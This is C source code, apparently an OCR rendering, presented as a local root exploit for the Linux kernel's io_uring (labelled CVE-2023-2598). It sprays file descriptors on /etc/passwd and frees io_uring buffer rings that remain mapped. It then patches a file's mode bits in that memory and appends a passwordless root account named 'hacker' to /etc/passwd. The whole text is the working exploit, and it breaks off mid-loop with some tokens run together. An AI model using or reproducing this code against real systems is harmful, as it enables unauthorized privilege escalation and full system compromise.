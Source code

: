 ```
#define _GNU_SOURCE #include <stdio.h>#include <sys/mman.h>#include <string.h>#include <liburing.h>#include <fcntl.h>#include <stdlib.h>#include <sys/types.h>#include <sys/stat.h>#include <unistd.h>#include <mqueue.h>#include <sys/syscall.h>#include <sys/resource.h>#include <sys/socket.h>#include <netinet/in.h>#include <netinet/tcp.h>#include<sys/stat.h>#include<sys/file.h>#pragma pack(16)#define __int64 long long#define CLOSE printf("\033[0m\n");#define RED printf("\033[31m");#define GREEN printf("\033[36m");#define BLUE printf("\033[34m");#define YELLOW printf("\033[33m");#define _QWORD unsigned long#define _DWORD unsigned int#define _WORD unsigned short#define _BYTE unsigned char#define COLOR_GREEN "\033[32m"#define COLOR_RED "\033[31m"#define COLOR_YELLOW "\033[33m"#define COLOR_BLUE "\033[34m"#define COLOR_DEFAULT "\033[0m"#define showAddr(var)  dprintf(2, COLOR_GREEN "[*] %s -> %p\n" COLOR_DEFAULT, #var, var); #define logu(fmt, ...) dprintf(2,  "[*]  " fmt "\n" , ##__VA_ARGS__)#define logd(fmt, ...) dprintf(2, COLOR_BLUE "[*] %s:%d " fmt "\n" COLOR_DEFAULT, __FILE__, __LINE__, ##__VA_ARGS__)#define logi(fmt, ...) dprintf(2, COLOR_GREEN "[+] %s:%d " fmt "\n" COLOR_DEFAULT, __FILE__, __LINE__, ##__VA_ARGS__)#define logw(fmt, ...) dprintf(2, COLOR_YELLOW "[!] %s:%d " fmt "\n" COLOR_DEFAULT, __FILE__, __LINE__, ##__VA_ARGS__)#define loge(fmt, ...) dprintf(2, COLOR_RED "[-] %s:%d " fmt "\n" COLOR_DEFAULT, __FILE__, __LINE__, ##__VA_ARGS__)#define die(fmt, ...)                      \    do {                                   \        loge(fmt, ##__VA_ARGS__);          \        loge("Exit at line %d", __LINE__); \        exit(1);                           \    } while (0)#define debug(fmt, ...)                      \    do {                                     \        loge(fmt, ##__VA_ARGS__);            \        loge("debug at line %d", __LINE__);  \        getchar();                           \    } while (0)#define check_ret(ret, buf) do { if((ret) < 0) { die(buf); } } while(0)#define MAX_ring_entries 65536#define PAGE_SZIE 0x1000void bind_cpu(int core);void binary_dump(char *desc, void *addr, int len);struct __attribute__((aligned(0x100))) fake_filp{    char pad[20];    uint32_t f_mode;    char padding[];};void prep_rlimit(int *nr_files){    struct rlimit max_file;    getrlimit(RLIMIT_NOFILE,&max_file);    logu("rlim_cur -> %d rlim_max -> %d",max_file.rlim_cur,max_file.rlim_max);    max_file.rlim_cur=max_file.rlim_max;    setrlimit(RLIMIT_NOFILE,&max_file);    int limit = max_file.rlim_max/4;    *nr_files = limit/2;    logu("nr_files -> %d",*nr_files);}int change_mode(void* addr,uint64_t size){    int  ret = -1;    uint64_t* tmp = (uint64_t* )addr;    for (size_t i = 0; i < size/8; i++)    {        // if( tmp[i] != 0)        //     logi(" addr: %p offset: 0x%llx -> %p",addr+i,i,tmp[i]);        if(tmp[i]==0x494a801d00000000){            // logw("successful!! addr: %p offset: 0x%llx -> %p",addr+i*8,i*8,tmp[i]);            tmp[i] = 0x494f801f00000000;            ret = 1;            break;        }         }    return ret;  }int main(void){    int nr_files,ret;    struct io_uring ring;    int nr_bufs = 1000;    void** bufs;    struct io_uring_buf_reg reg;    int* fds;    staticstruct stat status;    int passwd_size,passwd_fd;    char* hacker_buf;    int hacker_len;    uint64_t nr_pages,entries,mmap_size,mmap_off;    RED;puts("[*] CVE-2023-2598 Exploit by mowen");CLOSE;    stat("/etc/passwd",&status);    passwd_size=status.st_size;    logi("passwd_size -> %d",passwd_size);    hacker_buf =(char*) malloc(passwd_size*2);    passwd_fd = open("/etc/passwd",O_RDONLY);    read(passwd_fd,hacker_buf,passwd_size);    strcat(hacker_buf,"hacker::0:0:root:/root:/bin/sh\n");    hacker_len =strlen(hacker_buf);    bind_cpu(0);// 1、解除当前进程限制    prep_rlimit(&nr_files);// 2、初始化 io_uring    check_ret(io_uring_queue_init(32,&ring,0),"io_uring_queue_init fail");    bufs = calloc(nr_bufs,sizeof(*bufs));    fds = malloc(nr_files*(sizeof(int)));        /**     * nr_pages: 有多少页，构造页数     * entries = nr_pages*(PAGE_SIZE/sizeof(struct io_uring_buf))     * mmap_size = entries*sizeof(struct io_uring_buf);     */    entries = MAX_ring_entries/2;    if(entries>MAX_ring_entries){        die("entries too large");    }    nr_pages = entries/256;    logi("nr_pages -> %d entries -> %d",nr_pages,entries);// 3、注册 IOU_PBUF_RING_MMAP      logu("register buf ring <- IOU_PBUF_RING_MMAP");    for (size_t i = 0; i < nr_bufs; i++)    {        memset(&reg,0,sizeof(reg));        reg.bgid=i;        reg.flags=IOU_PBUF_RING_MMAP;        reg.ring_entries=entries;        ret=io_uring_register_buf_ring(&ring,&reg,0);        if(ret < 0){            die("io_uring_register_buf_ring fail [%d]",i);        }        mmap_size = reg.ring_entries*sizeof(struct io_uring_buf);        mmap_off = IORING_OFF_PBUF_RING | (unsignedlonglong) i << IORING_OFF_PBUF_SHIFT;        bufs[i] = mmap(            NULL,            mmap_size,            PROT_READ|PROT_WRITE,            MAP_SHARED,            ring.ring_fd,            mmap_off        );        if(bufs[i]==MAP_FAILED){            die("mmap fail");        }        io_uring_buf_ring_init(bufs[i]);        // logu("br[%d] -> %p",i,br[i]);    }    logu("unregister buf ring");    for (size_t i = 0; i < nr_bufs; i++)    {        io_uring_unregister_buf_ring(&ring, i);    }        logi("sparying...");    for (size_t i = 0; i < nr_files; i++)    {        fds[i] = open("/etc/passwd", O_RDONLY);        check_ret(fds[i],"failed to open file");    }    logi("try to leak...");    for (size_t i = 0; i < nr_bufs; i++)    {        ret = change_mode(bufs[i],PAGE_SZIE*nr_pages);        if(ret<0)continue;        logi("change_mode success!!!");        for (size_t i = 0; i < nr_files; i++)            {                if(write(fds[i],hacker_buf,hacker_len)>0){                    logw(" hacker /etc/passwd successful");                    break;                }
```